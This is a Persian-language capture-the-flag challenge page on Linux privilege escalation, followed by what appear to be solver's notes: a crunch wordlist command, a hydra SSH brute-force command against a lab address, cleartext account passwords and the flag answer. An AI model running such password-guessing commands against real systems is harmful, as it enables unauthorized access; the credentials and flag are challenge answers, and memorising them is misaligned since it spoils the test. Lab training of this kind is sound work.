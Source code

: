  ارتقاء سطح دسترسی در لینوکس 3 - Warm-up
1403-02-11 18:43

یکی از مراحل پس از ایجاد دسترسی اولیه، بالا بردن سطح دسترسی است. روش‌های متنوعی برای ارتقای سطح دسترسی وجود دارد که این روش‌ها هم در سیستم عامل ویندوز و هم لینوکس قابل پیاده سازی می‌باشند.

در این چالش یکی از روش‌های بالا بردن دسترسی در لینوکس مد نظر می‌باشد.

نکته: نام کاربری challenginno می باشد. برای کلمه عبور نیز از ساختارهای رایج استفاده شده است.

ابتدا با نام کاربری فوق لاگین نموده و سپس به دنبال بالا بردن دسترسی باشید.

فایل فلگ در پروفایل کاربر tc قرار دارد.

برای راهنمایی از کتاب تست نفوذ با کالی سال 2023 و بخش ارتقای دسترسی در لینوکس را مطالعه نمایید.


[information password]=(Ab123456)

crunch 7 7 -t saba%%%  -o 7chars.txt

hydra -l semiroot -P 8chars.txt ssh://192.168.8.40

semiroot saba123

tc Warm123321#$%(

1-محتوای فایل فلگ موجود در پروفایل کاربر tc را وارد نمایید.

**Warmup-Prive-1-Challenginno-lin**
